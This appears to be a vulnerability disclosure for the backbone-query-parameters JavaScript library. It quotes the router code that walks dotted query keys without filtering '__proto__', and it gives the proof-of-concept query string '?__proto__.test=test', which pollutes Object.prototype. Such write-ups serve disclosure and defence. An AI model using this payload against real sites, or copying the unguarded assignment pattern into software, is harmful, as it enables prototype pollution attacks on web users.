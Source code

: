 ## backbone-query-parameters

URL: https://github.com/jhudson8/backbone-query-parameters

### Vulnerable code fragment

https://github.com/jhudson8/backbone-query-parameters/blob/d6fb511bddc1b213a3b766bd10dfaf5d3b5d5aab/backbone.queryparams.js

```js
  _extractParameters: function(route, fragment) {
    ...
      if (queryString) {
        var self = this;
        iterateQueryString(queryString, function(name, value) {
          self._setParamValue(name, value, data);

  ...

  _setParamValue: function(key, value, data) {
    // use '.' to define hash separators
    key = key.replace('[]', '');
    key = key.replace('%5B%5D', '');
    var parts = key.split('.');
    var _data = data;
    for (var i=0; i<parts.length; i++) {
      var part = decodeURIComponent(parts[i]);
      if (i === parts.length-1) {
        // set the value
        _data[part] = this._decodeParamValue(value, _data[part]);
      } else {
        _data = _data[part] = _data[part] || {};
      }
    }
  },
```

### PoC
```
?__proto__.test=test
```